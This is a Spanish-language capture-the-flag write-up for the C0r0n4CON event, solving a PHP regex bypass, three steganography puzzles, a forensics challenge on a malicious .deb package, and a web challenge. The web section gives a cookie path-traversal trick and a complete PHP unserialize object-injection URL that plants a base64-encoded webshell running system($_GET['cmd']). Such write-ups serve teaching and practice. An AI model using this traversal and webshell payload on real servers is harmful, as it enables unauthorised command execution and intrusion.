







# Write-up C0r0n4CON

* [Welcome](#welcome)
* [Stego - Paperrolling](#stego---paperrolling)
* [Stego - DNACovid19](#stego---dnacovid19)
* [Stego - TODOVAASALIRBIEN](#stego---todovaasalirbien)
* [Forensics - wall_paint](#forensics---wall_paint)
* [Web - Pwny Bank](#web---pwny-bank)


## Welcome
En una de las IPs que proporcionan para el reto, veo que indican que el objetivo es llegar a welcome() y nos dan el código fuente para ello.

```
<!DOCTYPE HTML>
<?php
  require("flag.php");

  if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
  }

  if (isset($_GET['hole'])) {

    $rabbit = $_GET['hole'];
    $boomer = 'boomerrabbit';
    $holly = preg_replace(
            "/$boomer/", '', $rabbit);

    if ($holly === $boomer) {
      welcome();
    }
  }
?>

<html>
  <head>
    <title>Welcome</title>
  </head>
  <body>
    <h1>Welcome to Fwhibbit MiniCTF Quarantine Edition 2020</h1>
    <p>Try to reach <code>welcome()</code></p>
    <a target="_blank" href="?source">View source code</a>

  </body>
</html>
```

La cosa está en conseguir que la entrada que se le proporcione a través del parámetro GET 'hole', tras eliminar la cadena 'boomerrabbit' de ella, quede la palabra 'boomerrabbit'. Esto se puede conseguir incluyendo la palabra dentro de la propia palabra: 'boomerboomerrabbitrabbit' -> 'boomerrabbit'.

**flag{welcome_b00mer_&lt;redacted>!}**


## Stego - Paperrolling
<p align="center">
  
</p>

Archivos: <a href="challs/stego/paperrolling.gif.gz">paperrolling.gif.gz</a>

Extraigo el archivo comprimido. Le paso binwalk al GIF veo que hay un zip. Lo extraigo con `dd if=paperrolling.gif of=extracted.zip bs=1 skip=820154` y al tratar de descomprimirlo veo que tiene pass, por lo que intento forzarlo con `zip2john extracted.zip > john.hash; john --wordlist=/usr/share/wordlists/rockyou.txt john.hash`, lo cual no da resultado. Le paso un `strings` y un `exiftool` pero no da nada de información, por lo que pienso que igual está en las imagenes del GIF. 

Veo que el gif tiene un frame que aparece algo y saco los frames con `ffmpeg -i paperrolling.gif -vsync 0 temp/temp%d.png`. Un frame contiene el link: https://es.wikipedia.org/wiki/COVID-19, por lo que igual la contraseña es una palabra de esta página. 

Hago un diccionario con cewl de la página: `cewl https://es.wikipedia.org/wiki/COVID-19 -w covid19.txt`. Tras un rato que no acababa, lo decido parar y pruebo de nuevo con john y este diccionario, resultando que la contraseña es "cuarentenas". El zip contiene la flag.

**flag{maXiroll&lt;redacted>}**


## Stego - DNACovid19
<p align="center">
  
</p>

Archivos: <a href="challs/stego/seqfragment.zip">seqfragment.zip</a>

La imagen contiene una secuencia de nucleótidos, lo que me hace pensar en algún tipo de esteganografía basada en esto. Encuentro varios materiales por Internet, y este script en Python me permite decodificar la cadena que extraigo a mano de la imagen: https://raw.githubusercontent.com/omemishra/DNA-Genetic-Python-Scripts-CTF/master/dnacode.py

La salida es una cadena en Base32, ya que está todo en mayúsculas, y al decodificarla genera una secuencia hexadecimal que al decodificarla de nuevo proporciona la flag.

**flag{MuRcIeLaG0_&lt;redacted>}**


## Stego - TODOVAASALIRBIEN
<p align="center">
  
</p>

Archivos: <a href="challs/stego/EL-4RCOIRIS-TODO-VA-A-SALIR-BIEN-.zip">EL-4RCOIRIS-TODO-VA-A-SALIR-BIEN-.zip</a>

Dentro del zip hay un PDF, que al abrirlo veo que en la segunda hay un archivo adjunto llamado "sin_barreras.txt". Al abrirlo se ve una cadena en Base64, que al decodificarla genera una imagen PNG. Al abrirla veo que se trata de un código de barras, y mediante la página https://zxing.org/w/decode lo decodifico y obtengo la flag.

**flag{r3sistir3_&lt;redacted>}**

## Forensics - wall_paint
<p align="center">
  
</p>

El reto pesa más de 2GB, por lo que dejo los enlaces que proporcionaban.
<ul>
  <li><a href="https://drive.google.com/file/d/10HlcmXQeWzBbAd7v-wCwXvUmENnkZ3am/view?usp=sharing">Mirror 1</a></li>
  <li><a href="https://drive.google.com/file/d/1UQj-Xal06qRWEuGZYYAMrDOT5DzeizXi/view?usp=sharing">Mirror 2</a></li>
  <li><a href="https://mega.nz/file/BqZEwQ7I#SIKDb8CQPhp18FUzT6gk00Bv-YoszfoNmsXoUSZGtB8">Mirror 3</a></li>
</ul>


Descomprimo la imagen con gunzip y la meto en Autopsy. Veo que se trata de una imagen de un Debian 10.3. El resumen del análisis me indica que hay 3 mensajes de correo. En el primero hay un mensaje del usuario en el que pide unos paquetes de unos nuevos proyectos. El siguiente es la respuesta (con faltas de ortografía, típico de los malos) al correo anterior, en el que va adjunto un archivo llamado "corpwallpaper_1.0.deb" y le indica una contraseña de instalación. El último correo es un mensaje de alarma de que se ha producido una intrusión y de que se ignore cualquier correo que provenga de su cuenta o de alguna que se le parezca. Me fijo que la dirección de ambas cuentas difiere en que una 'o' es un '0', por lo que está claro que el paquete debe ser el malware.

Lo extraigo de Autopsy y con `dpkg -e corpwallpaper_1.0.deb` vuelco los scripts que se ejecutan al instalarlo. En el script de post-instalación (postinst), veo que hay un descifrado de un archivo .sh con el comando `openssl aes-256-cbc -a -salt -d -in /tmp/st.sh -pass pass:$password 2>/dev/null`. Extraigo el contenido del paquete con `7z x corpwallpaper_1.0.deb; tar -xvf data.tar`, y descifro el archivo "st.sh" con el mismo comando del script y la contraseña del correo: `openssl aes-256-cbc -a -salt -d -in tmp/st.sh -pass pass:YTM0NGNmZDdjY2NhYTc5OGVmZmQ5NTZlNWUyYTA3YTUgIC0K`. La salida es un echo con la flag.

**flag{ur_1nf3ct3d_&lt;redacted>}**


## Web - Pwny Bank
<p align="center">
  
</p>
<p align="center">
  
</p>

La página muestra una descripción de su utilidad y un formulario, que al rellenarlo y enviarlo muestra un mensaje de creación de una contraseña, y su almacenamiento en una BD (en un .txt, ole).

<p align="center">
  
</p>

En el codigo fuente hay un comentario que parece una pista: 
`<!--(admin notes)Only administrator can manage this secure password store server. Since we're lazy, we take advantage to properly manage user passwords via GET.-->`. 

Como no están permitidos los fuzzers en los retos web, pruebo a mirar el archivo `robots.txt`:
```
User-agent: *
Disallow: backup.txt
Disallow: /tmp
Disallow: /info
```

El archivo de texto `backup.txt` contiene el mensaje `MOVED OUTSIDE WEBDIR FOR SECURITY REASONS`.

En el directorio `/tmp/` se lista un directorio con un nombre de usuario que contiene lo que parece ser su contraseña, y me doy cuenta que se cambia de usuario cada 10 segundos. Lo que hice durante el CTF y que al final fue un callejón sin salida, fue ir descargando con wget recursivamente cada 10 segundos el contenido de este directorio, con la esperanza de que la flag apareciera en alguno de estos usuarios o contraseñas. Sin embargo, no resultó.

En el directorio `/info/` hay 2 archivos de texto: `admin.txt` y `pwnyBank.txt`. El primero contiene el mensaje `Admin include information: I hope that my workers know how to manage user's passwords of the bank in a directory in web application, with the procedure that was explained last week.`, lo que indica que hay algún directorio en la aplicación en el que se están tratando las contraseñas de los usuarios. El segundo archivo de texto contiene el mismo texto que aparece en la página, y me doy cuenta que hay una cookie `user` con el valor `pwnyBank`. Si cambio su valor a admin, aparece el texto de `admin.txt`, por lo que se me ocurre tratar de llegar al archivo `backup.txt` que mencionan que se ha movido fuera el directorio web. Para ello le doy el valor `../../backup` a la cookie, mostrándome el contenido del archivo:
```
class SecurePasswordManager{
    function __construct() {
    }
    
   
    function __destruct() {
        $sid = session_id();
        mkdir("/app/public/tmp/{$sid}/");
        $filesize = file_put_contents("/app/public/tmp/{$sid}/{$this->filename}", $this->content);
        $filename = "/app/public/tmp/{$sid}/{$this->filename}";
        if ($filesize === 48){
            echo "Administrator feature: Uploaded user password file";
            $password = file_get_contents($filename);
            $content= base64_decode($password);
            $file = fopen($filename, 'w');    
            fwrite($file, $content);
            fclose($file);
            echo "[+] Debug: Done";
      }
      else {
        unlink($filename);
      }
    }
}

$data = unserialize($_GET['data']);
```

Nada más ver en unserialize pienso en el típico exploit para conseguir ejecutar código (https://www.notsosecure.com/remote-code-execution-via-php-unserialize/). Como no hay ninguna limitación del nombre del archivo, puedo aprovechar para subir una webshell en PHP. La única limitación es que el tamaño de la webshell en Base64 debe ser exactamente de 48 caracteres. Este tamaño da de sobra con `<?php  system($_GET['cmd']);     ?>` a la cual le añado espacios para que su Base64 tenga 48 caracteres exactos. Luego la subida se realizaría con `http://157.230.107.175:8001/?data=O:21:"SecurePasswordManager":2:{s:8:"filename";s:11:"exploit.php";s:7:"content";s:48:"PD9waHAgIHN5c3RlbSgkX0dFVFsnY21kJ10pOyAgICAgPz4=";}`

Accediendo al archivo `/tmp/<mi-sid-que-no-me-acuerdo>/exploit.php` veo que puedo ejecutar comandos, aunque tengo que volver a ejecutar la subida cada 10 segundos ya que el contenido de `/tmp` se regenera. Acabo encontrando la flag en la raíz del sistema.

**flag{n41v3n0m_&lt;redacted>}**
